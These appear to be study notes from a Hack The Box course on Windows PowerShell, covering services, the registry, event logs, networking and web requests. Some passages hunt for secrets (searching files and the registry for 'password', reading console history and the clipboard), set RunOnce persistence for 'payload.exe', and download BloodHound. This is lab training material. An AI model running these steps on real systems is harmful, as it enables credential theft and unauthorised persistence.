    1 True                      {MTanaka}
```

Sorting, grouping and filtering are all useful tools that will help us focus on the relevant data we are interested and throwing away the useless data we don't care about.

### Where
Sometimes what we are looking for might not be as clear to us as we would like, but we know sorta what we want. Say we are looking for a service and we know part of the name.

`Get-Service | where DisplayName -like '*Defender*'`

```
Status   Name               DisplayName
------   ----               -----------
Running  mpssvc             Windows Defender Firewall
Stopped  Sense              Windows Defender Advanced Threat Pr...
Running  WdNisSvc           Microsoft Defender Antivirus Networ...
Running  WinDefend          Microsoft Defender Antivirus Service
```

Here i prompted PowerShell that i was looking for a DisplayName -like "*Defender*" *note* that the search string is a regex. 

Like is not the only comparison operator we can use
* like
* Contains
* Equal
* Match
* Not

### Pipeline (|)
Like with bash the pipeline forwards the returned object and parses in as an argument to the statement afther the pipeline. You can chain maybe statements together like that:
`get-process | sort | unique | measure-object`

#### Chain Operators (&& and ||)
* && executes the next statement if the first statement succeeds 
* || executes the next statement if the first statement failed.

Only works with PowerShell 7 and above.


### Finding data within content
Say we are unable to bring in tools from the outside, how can we hunt for sensitive data? 

`Select-String` is a good place to start it functions much like grep.

Lets examine this string
`Get-Childitem –Path C:\Users\MTanaka\ -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.txt")}`

This will recursivly enumerate every subdir of the path given and while suppressing any errors we get will return any .txt file it finds. 

However txt files are not the only interesting file type on a system, so lets expand with some more types!

`Get-Childitem –Path C:\Users\MTanaka\ -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.txt" -or $_.Name -like "*.py" -or $_.Name -like "*.ps1" -or $_.Name -like "*.md" -or $_.Name -like "*.csv")}`

Using the or operator we now have a good change of finding some interesting files.

Now lets search some interesting files for string keywords!

`Get-ChildItem -Path C:\Users\MTanaka\ -Filter "*.txt" -Recurse -File | sls "Password","credential","key"`

I have reduced the scope of file searches for clarities sake. The txt files we do find we search for the strings Password, credential and key. 

### Good Places to look for Treasure

* Looking in a Users \AppData\ folder is a great place to start. Many applications store configuration files, temp saves of documents, and more.
* A Users home folder C:\Users\User\ is a common storage place; things like VPN keys, SSH keys, and more are stored. Typically in hidden folders. (Get-ChildItem -Hidden)
* The Console History files kept by the host are an endless well of information, especially if you land on an administrator's host. You can check two different points:
* C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
* Get-Content (Get-PSReadlineOption).HistorySavePath
* Checking a user's clipboard may also yield useful information. You can do so with Get-Clipboard
* Looking at Scheduled tasks can be helpful as well.

# Working with Services

## How do we interact with services in PowerShell?
Getting help works the same as usual

`Get-Help *-Service`

`Get-Service | ft DisplayName,Status` 

This return an easy to read table of serviceNames and their status.

This command will allow us to measure how many Services we have running
`Get-Service | where Status -match Running | measure`

I like cmd examples OK!
`Get-Service | where DisplayName -like '*Defender*' | ft DisplayName,ServiceName,Status`

`Start-Service WinDefend`
you can also stop and restart services

## Remote Services using PowerShell
Say we wanna interact with a remote host in our domain we simpy use the flag `-ComputerName` and enter the hostname 

```
PS C:\htb> get-service -ComputerName ACADEMY-ICL-DC

Status   Name               DisplayName
------   ----               -----------
Running  ADWS               Active Directory Web Services
Stopped  AppIDSvc           Application Identity
Stopped  AppMgmt            Application Management
Stopped  AppReadiness       App Readiness
Stopped  AppXSvc            AppX Deployment Service (AppXSVC)
Running  BFE                Base Filtering Engine
Stopped  BITS               Background Intelligent Transfer Ser...
<SNIP> 
```
Perhaps a filter is in order:
```
PS C:\htb> Get-Service -ComputerName ACADEMY-ICL-DC | Where-Object {$_.Status -eq "Running"}

Status   Name               DisplayName
------   ----               -----------
Running  ADWS               Active Directory Web Services
Running  BFE                Base Filtering Engine
Running  COMSysApp          COM+ System Application
Running  CoreMessagingRe... CoreMessaging
Running  CryptSvc           Cryptographic Services
Running  DcomLaunch         DCOM Server Process Launcher
Running  Dfs                DFS Namespace
Running  DFSR               DFS Replication
```

Now we would like to run a command on multiple hosts
```
PS C:\htb> invoke-command -ComputerName ACADEMY-ICL-DC,LOCALHOST -ScriptBlock {Get-Service -Name 'windefend'}

Status   Name               DisplayName                            PSComputerName
------   ----               -----------                            --------------
Running  windefend          Microsoft Defender Antivirus Service   LOCALHOST
Running  windefend          Windows Defender Antivirus Service     ACADEMY-ICL-DC
```
# Working with the Registry 
The Windows Registry is a hierarchal tree with keys and matching values

Key can contain other keys and values as data.

![Keys](registry.webp "Green is Keys")

The elements in the green are keys that contain other "sub-keys" 

## Registry Key Files
A host systems Registry root keys are stored in several different files and can be accessed from `C:\Windows\System32\Config\`

Along with these Key files, registry hives are held throughout the host in various other places.

```
PS C:\htb> Get-ChildItem C:\Windows\System32\config\

    Directory: C:\Windows\System32\config

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d----           12/7/2019  4:14 AM                Journal
d----           12/7/2019  4:14 AM                RegBack
d----           4/28/2021 11:43 AM                systemprofile
d----           9/18/2021 12:22 AM                TxR
-a---          10/12/2022 10:06 AM         786432 BBI
-a---           1/20/2021  5:13 PM          28672 BCD-Template
-a---          10/18/2022 11:14 AM       38273024 COMPONENTS
-a---          10/12/2022 10:06 AM        1048576 DEFAULT
-a---          10/15/2022  9:33 PM       13463552 DRIVERS
-a---           1/27/2021  2:54 PM          32768 ELAM
-a---          10/12/2022 10:06 AM         131072 SAM
-a---          10/12/2022 10:06 AM          65536 SECURITY
-a---          10/12/2022 10:06 AM      168034304 SOFTWARE
-a---          10/12/2022 10:06 AM       29884416 SYSTEM
-a---          10/12/2022 10:06 AM           1623 VSMIDK
```
More can be found here [here](https://learn.microsoft.com/en-us/windows/win32/sysinfo/registry-hives)

## What Are Values
The values are stored in the registry between the orange lines in the image below.
![here](registry-values.webp)
A more detailed list of types is available here:
[Link](https://learn.microsoft.com/en-us/windows/win32/sysinfo/registry-value-types)

## Registry Hives
|Name|	Abbreviation|	Description|
|-----|----------|----------|
|HKEY_LOCAL_MACHINE	|HKLM|	This subtree contains information about the computer's physical state, such as hardware and operating system data, bus types, memory, device drivers, and more.|
|HKEY_CURRENT_CONFIG	|HKCC|	This section contains records for the host's current hardware profile. (shows the variance between current and default setups) Think of this as a redirection of the HKLM CurrentControlSet profile key.|
|HKEY_CLASSES_ROOT	|HKCR|	Filetype information, UI extensions, and backward compatibility settings are defined here.|
|HKEY_CURRENT_USER|	HKCU|	Value entries here define the specific OS and software settings for each specific user. Roaming profile settings, including user preferences, are stored under HKCU.|
|HKEY_USERS|	HKU|	The default User profile and current user configuration settings for the local computer are defined under HKU.|

[Microsoft](https://learn.microsoft.com/en-us/windows/win32/sysinfo/predefined-keys) has more information on this.

## Access the Information
Commonly the reg.exe application is used to access the registry, however since we might only have shell access to the machine we would like to know how to interact with the registry via powershell

1. `Get-Item`
2. `Get-ItemProperty`
3. `Get-ChildItem`

### 1 Get-Item
```
PS C:\htb> Get-Item -Path Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run | Select-Object -ExpandProperty Property  

SecurityHealth
RtkAudUService
WavesSvc
DisplayLinkTrayApp
LogiOptions
Acrobat Assistant 8.0
(default)
Focusrite Notifier
AdobeGCInvoker-1.0
```

### 2 Recursive Search

```
PS C:\htb> Get-ChildItem -Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion -Recurse

Hive: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths
<SNIP>
Name                           Property
----                           --------
7zFM.exe                       (default) : C:\Program Files\7-Zip\7zFM.exe
                               Path      : C:\Program Files\7-Zip\
Acrobat.exe                    (default) : C:\Program Files\Adobe\Acrobat DC\Acrobat\Acrobat.exe
                               Path      : C:\Program Files\Adobe\Acrobat DC\Acrobat\
AcrobatInfo.exe                (default) : C:\Program Files\Adobe\Acrobat DC\Acrobat\AcrobatInfo.exe
                               Path      : C:\Program Files\Adobe\Acrobat DC\Acrobat\
AcroDist.exe                   Path      : C:\Program Files\Adobe\Acrobat DC\Acrobat\
                               (default) : C:\Program Files\Adobe\Acrobat DC\Acrobat\Acrodist.exe
Ahk2Exe.exe                    (default) : C:\Program Files\AutoHotkey\Compiler\Ahk2Exe.exe
AutoHotkey.exe                 (default) : C:\Program Files\AutoHotkey\AutoHotkey.exe
chrome.exe                     (default) : C:\Program Files\Google\Chrome\Application\chrome.exe
                               Path      : C:\Program Files\Google\Chrome\Application
cmmgr32.exe                    CmNative          : 2
                               CmstpExtensionDll : C:\Windows\System32\cmcfg32.dll
CNMNSST.exe                    (default) : C:\Program Files (x86)\Canon\IJ Network Scanner Selector EX\CNMNSST.exe
                               Path      : C:\Program Files (x86)\Canon\IJ Network Scanner Selector EX
devenv.exe                     (default) : "C:\Program Files\Microsoft Visual
                               Studio\2022\Community\common7\ide\devenv.exe"
dfshim.dll                     UseURL : 1
excel.exe                      (default) : C:\Program Files\Microsoft Office\Root\Office16\EXCEL.EXE
                               Path      : C:\Program Files\Microsoft Office\Root\Office16\
                               UseURL    : 1
                               SaveURL   : 1
fsquirt.exe                    DropTarget : {047ea9a0-93bb-415f-a1c3-d7aeb3dd5087}
IEDIAG.EXE                     (default) : C:\Program Files\Internet Explorer\IEDIAGCMD.EXE
                               Path      : C:\Program Files\Internet Explorer;
IEDIAGCMD.EXE                  (default) : C:\Program Files\Internet Explorer\IEDIAGCMD.EXE
                               Path      : C:\Program Files\Internet Explorer;
IEXPLORE.EXE                   (default) : C:\Program Files\Internet Explorer\IEXPLORE.EXE
                               Path      : C:\Program Files\Internet Explorer;
install.exe                    BlockOnTSNonInstallMode : 1
javaws.exe                     (default) : C:\Program Files\Java\jre1.8.0_341\bin\javaws.exe
                               Path      : C:\Program Files\Java\jre1.8.0_341\bin
licensemanagershellext.exe     (default) : C:\Windows\System32\licensemanagershellext.exe
mip.exe                        (default) : C:\Program Files\Common Files\Microsoft Shared\Ink\mip.exe
mpc-hc64.exe                   (default) : C:\Program Files (x86)\K-Lite Codec Pack\MPC-HC64\mpc-hc64.exe
                               Path      : C:\Program Files (x86)\K-Lite Codec Pack\MPC-HC64
mplayer2.exe                   (default) : "C:\Program Files\Windows Media Player\wmplayer.exe"
                               Path      : C:\Program Files\Windows Media Player
MSACCESS.EXE                   (default) : C:\Program Files\Microsoft Office\Root\Office16\MSACCESS.EXE
                               Path      : C:\Program Files\Microsoft Office\Root\Office16\
                               UseURL    : 1
msedge.exe                     (default) : C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
                               Path      : C:\Program Files (x86)\Microsoft\Edge\Application

    Hive: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\msedge.exe

Name                           Property
----                           --------
SupportedProtocols             http  :
                               https :
<SNIP>  
```

### 3 property
```
PS C:\htb> Get-ItemProperty -Path Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

SecurityHealth        : C:\Windows\system32\SecurityHealthSystray.exe
RtkAudUService        : "C:\Windows\System32\DriverStore\FileRepository\realtekservice.inf_amd64_85cff5320735903
                        d\RtkAudUService64.exe" -background
WavesSvc              : "C:\Windows\System32\DriverStore\FileRepository\wavesapo9de.inf_amd64_d350b8504310bbf5\W
                        avesSvc64.exe" -Jack
DisplayLinkTrayApp    : "C:\Program Files\DisplayLink Core Software\DisplayLinkTrayApp.exe" -basicMode
LogiOptions           : C:\Program Files\Logitech\LogiOptions\LogiOptions.exe /noui
Acrobat Assistant 8.0 : "C:\Program Files\Adobe\Acrobat DC\Acrobat\Acrotray.exe"
(default)             :
Focusrite Notifier    : "C:\Program Files\Focusriteusb\Focusrite Notifier.exe"
AdobeGCInvoker-1.0    : "C:\Program Files (x86)\Common Files\Adobe\AdobeGCClient\AGCInvokerUtility.exe"
PSPath                : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Curren
                        tVersion\Run
PSParentPath          : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Curren
                        tVersion
PSChildName           : Run
PSProvider            : Microsoft.PowerShell.Core\Registry
```

### Reg Query 

`REG QUERY HKCU /F "password" /t REG_SZ /S /K`

* **Reg query**: We are calling on Reg.exe and specifying that we want to query data.
* **HKCU**: This portion is setting the path to search. In this instance, we are looking in all of HKey_Current_User.
* **/f "password"**: /f sets the pattern we are searching for. In this instance, we are looking for "Password".
* **/t REG_SZ**: /t is setting the value type to search. If we do not specify, reg query will search through every type.
* **/s**: /s says to search through all subkeys and values recursively.
* **/k**: /k narrows it down to only searching through Key names.pecifying 

## Creating and Modifying Registry Keys and Values
Here we can use the PowerShell cmdlets: `New-Item` `Set-Item`, `New-ItemProperty` and `Set-ItemProperty`. `reg.exe` can aslo be used. 

In the following example we will create a test new test key in the registry hive `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce`

RunOnce has the buildin effect that it will call the key-value once, at boot and then delete it. Automatic Cleaning up any mess we make. 

A practical scenario for this would be to create a soft kind of persistence on a system ensuring that if the host is restarted our payload can be re-executed at boot. 

Lets get started
### New Regitry Key

`New-Item -Path HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce\ -Name TestKey`

### Setting Item Property
`New-ItemProperty -Path HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce\TestKey -Name  "access" -PropertyType String -Value "C:\Users\htb-student\Downloads\payload.exe"`

As mentioned the same can be done with the a reg.exe cmd 
`reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce\TestKey" /v access /t REG_SZ /d "C:\Users\htb-student\Downloads\payload.exe"  
`

If you made a mistake you can always clean up `Remove-ItemProperty -Path HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce\TestKey -Name "access"`

# Windows Event Log
The first concept we need to understand in this subject is an **event**.
An **event** is any action or occurance that can be identified and classified by a system's hardware or software. 
Events can be generated or triggered in some of the following ways:
* User Events
  * Input from the user
* Application Events
  * updates, crashes, memory consumption 
* System Events
  * Uptime, Updates, Driver (un)load, logins

All of this event are kept track of by the Windows OS using the **Event Logging** concept.
[learn](https://learn.microsoft.com/en-us/windows/win32/eventlog/event-logging)

"...provides a standard, centralized way for applications (and the operating system) to record important software and hardware events."

The Service used for Event logging is called "Windows Event Log", it manages events and event logs. But the "Windows Event Log" also has an API that allows application to manage and maintain their own seperate event log. 

## Event Log Catagories and Types
|Log Category|	Log Description|
| ------------- |------------|
|System Log	|The system log contains events related to the Windows system and its components. A system-level event could be a service failing at startup.|
|Security Log	|Self-explanatory; these include security-related events such as failed and successful logins, and file creation/deletion. These can be used to detect various types of attacks that we will cover in later modules.|
|Application Log|	This stores events related to any software/application installed on the system. For example, if Slack has trouble starting it will be recorded in this log.|
|Setup Log|	This log holds any events that are generated when the Windows operating system is installed. In a domain environment, events related to Active Directory will be recorded in this log on domain controller hosts.|
|Forwarded Events|	Logs that are forwarded from other hosts within the same network.|


### Event Types
There are five types of events that can be logged on Windows systems:

|Type of Event	| Event Description |
| ------------- |--------------- |
|Error|	Indicates a major problem, such as a service failing to load during startup, has occurred.|
|Warning	|A less significant log but one that may indicate a possible problem in the future. One example is low disk space. A Warning event will be logged to note that a problem may occur down the road. A Warning event is typically when an application can recover from the event without losing functionality or data.|
|Information|	Recorded upon the successful operation of an application, driver, or service, such as when a network driver loads successfully. Typically not every desktop application will log an event each time they start, as this could lead to a considerable amount of extra "noise" in the logs.|
|Success Audit|	Recorded when an audited security access attempt is successful, such as when a user logs on to a system.|
|Failure Audit	|Recorded when an audited security access attempt fails, such as when a user attempts to log in but types their password in wrong. Many audit failure events could indicate an attack, such as Password Spraying.|
### Event Severity Levels
Each log can have one of five severity levels associated with it, denoted by a number:

|Severity Level|	Level #|	Description|
|------------- |----------| ---------- |
|Verbose	|5|	Progress or success messages.|
|Information|	4|	An event that occurred on the system but did not cause any issues.|
|Warning	|3|	A potential problem that a sysadmin should dig into.|
|Error	|2|	An issue related to the system or service that does not require immediate attention.|
|Critical	|1|	This indicates a significant issue related to an application or a system that requires urgent attention by a sysadmin that, if not addressed, could lead to system or application instability.|

## Elements of the Event Log
* Log name
* Event data/time
* Task Category: event log type
* Event ID: unique identifier
* Source : event produced by xyz.exe
* Level: see previous table
* User
* Computer (host)

[AD-list](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/appendix-l--events-to-monitor)

## Technical Details 
The event log is handled by the system service **Eventlog**
```
 Get-Service -Name EventLog

Status   Name               DisplayName
------   ----               -----------
Running  EventLog           Windows-hændelseslog
```
This service starts at system boot by default.

By default the service stores Event Logs inside `C:\Windows\System32\winevt\logs` with the file extension .evtx.

**Note** Many Windows services are dependent on the Event Log, disabling it will lead to system instalbility and might trigger several alerts!

## Interact with the eventlog - wevtutil
the cmd command wevtutil can be used to retrieve information about event logs.
It can also do the following log operations
* export 
* archive
* clear

get help by typing `wevtutil /?`
Enumerate log sources with:

`wevtutil el`

with **gl** we can pass a log name argument to view the configuration of the logs attributes.

with **gli** we can pass a log name argument to view specific status information about the log file (Meta Data)

Now consider the following query: `wevtutil qe Security /c:5 /rd:true /f:text`

This prompts the system to return the 5 latest Security entries and return them as text.

exporting an event log is done like so:
`wevtutil epl System C:\system_export.evtx`

## Interacting with the eventlog - PowerShell
`Get-WinEvent` is the cmdlet that lets us interact with the eventlog from PowerShell

we can use the flag `-ListLog *` to list all logs. Replacing the wildcard we can narrow the listing using RegEx's.

We can use the `-MaxEvent <int>` to extract the n latest events of a specific log `-LogName <string>`
`-Oldest` if we want the oldest events insteaf of newest (default).


`Get-WinEvent -LogName 'Security' -MaxEvents 5 | Select-Object -ExpandProperty Message`

With this command we want the newest 5 Security eventsobjects and from that we want to see the MEssage attribute of the object. 

`Get-WinEvent -FilterHashTable @{LogName='Security';ID='4625 '}`
the id 4625 is the security event of account failed to log on. Analysing a log with many simultations of this event type could indicate a brute force attack. 

`Get-WinEvent -FilterHashTable @{LogName='System';Level='1'} | select-object -ExpandProperty Message`
This allows us to filter for Level 1 system events recall from earlier that level 1 is a critical event which is ranked more severe than level 2 "Error".

# Network Management 
Windows Hosts network fundamentaly like nay other host. The TCP/IP, wireless protocol treat most devices the same. 

Here are some standard protocols you can expect to find on a Windows Host
|Protocol|	Description|
| ----- | ----------- |
|SMB	|SMB provides Windows hosts with the capability to share resources, files, and a standard way of authenticating between hosts to determine if access to resources is allowed. For other distros, SAMBA is the open-source option.|
|Netbios|	NetBios itself isn't directly a service or protocol but a connection and conversation mechanism widely used in networks. It was the original transport mechanism for SMB, but that has since changed. Now it serves as an alternate identification mechanism when DNS fails. Can also be known as NBT-NS (NetBIOS name service).|
|LDAP	|LDAP is an open-source cross-platform protocol used for authentication and authorization with various directory services. This is how many different devices in modern networks can communicate with large directory structure services such as Active Directory.|
|LLMNR|	LLMNR provides a name resolution service based on DNS and works if DNS is not available or functioning. This protocol is a multicast protocol and, as such, works only on local links ( within a normal broadcast domain, not across layer three links).|
|DNS|	DNS is a common naming standard used across the Internet and in most modern network types. DNS allows us to reference hosts by a unique name instead of their IP address. This is how we can reference a website by "WWW.google.com" instead of "8.8.8.8". Internally this is how we request resources and access from a network.|
|HTTP/HTTPS |	HTTP/S HTTP and HTTPS are the insecure and secure way we request and utilize resources over the Internet. These protocols are used to access and utilize resources such as web servers, send and receive data from remote sources, and much more.|
|Kerberos |	Kerberos is a network level authentication protocol. In modern times, we are most likely to see it when dealing with Active Directory authentication when clients request tickets for authorization to use domain resources.|
|WinRM|	WinRM Is an implementation of the WS-Management protocol. It can be used to manage the hardware and software functionalities of hosts. It is mainly used in IT administration but can also be used for host enumeration and as a scripting engine.|
|RDP	|RDP is a Windows implementation of a network UI services protocol that provides users with a Graphical interface to access hosts over a network connection. This allows for full UI use to include the passing of keyboard and mouse input to the remote host.|
|SSH|	SSH is a secure protocol that can be used for secure host access, transfer of files, and general communication between network hosts. It provides a way to securely access hosts and services over insecure networks.|

## Local machine
`IPConfig /all` show configurations about out internetcard

`arp -a` display our arp table with mac adresses and their IP

`nslookup` provides dns lookup 

`netstat -an` Netstat will display current network connections
-an will print all connections and listening ports in numerical form

These were all commands built for cmd.exe 

## PowerShell Net Cmdlets
|Cmdlet|	Description|
| ---- | ----------- |
|Get-NetIPInterface|	Retrieve all visible network adapter properties.|
|Get-NetIPAddress|	Retrieves the IP configurations of each adapter. Similar to IPConfig.|
|Get-NetNeighbor	|Retrieves the neighbor entries from the cache. Similar to arp -a.|
|Get-Netroute|	Will print the current route table. Similar to IPRoute.|
|Set-NetAdapter|	Set basic adapter properties at the Layer-2 level such as VLAN id, description, and MAC-Address.|
|Set-NetIPInterface|	Modifies the settings of an interface to include DHCP status, MTU, and other metrics.|
|New-NetIPAddress|	Creates and configures an IP address.|
|Set-NetIPAddress|	Modifies the configuration of a network adapter.|
|Disable-NetAdapter|	Used to disable network adapter interfaces.|
|Enable-NetAdapter|	Used to turn network adapters back on and allow network connections.|
|Restart-NetAdapter	|Used to restart an adapter. It can be useful to help push changes made to adapter settings.|
|test-NetConnection	|Allows for diagnostic checks to be ran on a connection. It supports ping, tcp, route tracing, and more.|

## Enabling Remote Access
### SSH
`Get-WindowsCapability -Online | Where-Object Name -like 'OpenSSH*'`
should provide both a server and client name:
`Add-WindowsCapability -Online -Name OpenSSH.Client`

`Add-WindowsCapability -Online -Name OpenSSH.Server`

`Start-Service sshd`
  
`Set-Service -Name sshd -StartupType 'Automatic'`

### WinRM
port 5985 and 5986
`winrm quickconfig`

Once enabled we can test the remote access:

`Test-WSMan -ComputerName "10.129.224.248"`

This will only tells us if the port is open and the winrm service is running.

Now lets test authentication access:
`Test-WSMan -ComputerName "10.129.224.248" -Authentication Negotiate`

Now lets se if we can logon
`Enter-PSSession -ComputerName 10.129.224.248 -Credential htb-student -Authentication Negotiate`

Since PowerShell is cross platform the cmdlets above can also be used to connect from a linux client.

# Interacting with the Web
`Invoke-WebRequest` is our go to cmdlet.

can perform basic GET and POST

The cmdlet can accessed through it aliases **wget** **iwr** and **curl**

Lets inspect what we get from a webrequest:
```
PS C:\htb> Invoke-WebRequest -Uri "https://web.ics.purdue.edu/~gchopra/class/public/pages/webdesign/05_simple.html" -Method GET | Get-Member


   TypeName: Microsoft.PowerShell.Commands.HtmlWebResponseObject

----              ---------- ----------
Dispose           Method     void Dispose(), void IDisposable.Dispose()
Equals            Method     bool Equals(System.Object obj)
GetHashCode       Method     int GetHashCode()
GetType           Method     type GetType()
ToString          Method     string ToString()
AllElements       Property   Microsoft.PowerShell.Commands.WebCmdletElementCollection AllElements...
BaseResponse      Property   System.Net.WebResponse BaseResponse {get;set;}
Content           Property   string Content {get;}
Forms             Property   Microsoft.PowerShell.Commands.FormObjectCollection Forms {get;}
Headers           Property   System.Collections.Generic.Dictionary[string,string] Headers {get;}
Images            Property   Microsoft.PowerShell.Commands.WebCmdletElementCollection Images {get;}
InputFields       Property   Microsoft.PowerShell.Commands.WebCmdletElementCollection InputFields...
Links             Property   Microsoft.PowerShell.Commands.WebCmdletElementCollection Links {get;}
ParsedHtml        Property   mshtml.IHTMLDocument2 ParsedHtml {get;}
RawContent        Property   string RawContent {get;set;}
RawContentLength  Property   long RawContentLength {get;}
RawContentStream  Property   System.IO.MemoryStream RawContentStream {get;}
Scripts           Property   Microsoft.PowerShell.Commands.WebCmdletElementCollection Scripts {get;}
StatusCode        Property   int StatusCode {get;}
StatusDescription Property   string StatusDescription {get;}
```
Depending on what we want to look for we can filter the returned object like this:

`PS C:\htb> Invoke-WebRequest -Uri "https://web.ics.purdue.edu/~gchopra/class/public/pages/webdesign/05_simple.html" -Method GET | fl Images`

instead of Images we could have asked for the RawContent to get the raw html page.

## Download files 
Using the parameter `-Outfile "Path_to_file.txt"`
we can pipe the file served on the remote http server into a file. Very useful to qucikly get scripts from github or your own python -m http.server 8080 down on a host.

### Alternative
`(New-Object Net.WebClient).DownloadFile("https://github.com/BloodHoundAD/BloodHound/releases/download/4.2.0/BloodHound-win32-x64.zip", "Bloodhound.zip")`
This utilize a .Net class that allows us to download a file 1st parameter and what its name when downloaded should be parameter 2.

# PowerShell Scripting and Automation
PowerShell Extensions
|Extension	|Description|
|-------|--------|
| ps1|	The *.ps1 file extension represents executable PowerShell scripts.|
|psm1|	The *.psm1 file extension represents a PowerShell module file. It defines what the module is and what is contained within it.|
|psd1|	The *.psd1 is a PowerShell data file detailing the contents of a PowerShell module in a table of key/value pairs.|


